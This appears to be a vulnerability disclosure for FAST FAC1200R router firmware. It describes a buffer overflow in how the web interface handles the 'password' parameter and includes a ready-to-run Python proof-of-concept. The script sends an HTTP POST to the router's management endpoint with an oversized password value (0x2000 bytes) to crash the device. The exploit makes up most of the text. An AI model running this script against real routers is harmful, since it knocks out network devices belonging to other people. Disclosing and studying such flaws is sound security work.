


Submittion Date: 2025.4.18  
Vendor: FAC1200R  
Firmware: F400_FAC1200R_Q  
Download Link: https://service.fastcom.com.cn/download-265.html

The function sub_80435780 handles the important parameter string 'password' without checking it, which leads to a buffer overflow vulnerability. After attacking, the device will crash (leading to DOS).



Exploit the vulnerability by sending a carefully constructed HTTP request
```python
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds "
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data={"uhttpd":{"webPwd":{"password":"a"*0x2000,"fac_password":"a"}},"method":"set"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```

The exploitation is shown below.  

